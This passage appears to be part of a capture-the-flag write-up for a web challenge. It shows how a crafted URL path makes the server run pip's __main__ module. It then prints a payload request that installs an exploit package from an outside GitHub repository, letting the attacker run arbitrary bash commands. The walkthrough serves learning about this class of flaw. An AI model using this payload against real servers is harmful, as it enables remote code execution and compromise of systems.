 Looking at the Dockerfile, we notice that the container installs `Python 3.11`. This means that the python script for `pip` will be located at `/usr/local/lib/python3.11/site-packages/pip/__main__.py`.  

We can verify this on the webpage.  

<img src="images/pip.png" width=600>

I hosted a custom Python package on github that contains an exploit script that will execute arbitrary bash commands.  

<img src="images/exploit.png" width=600>

After passing in the `pip` script located, we can then build a command that will pip install our exploit script on the server.  

```
/?/usr/local/lib/python3.11/site-packages/pip/__main__&install&git%2Bhttps://github.com/jeff-160/pyramid-solve.git&-t&.
```

<img src="images/install.png" width=600>

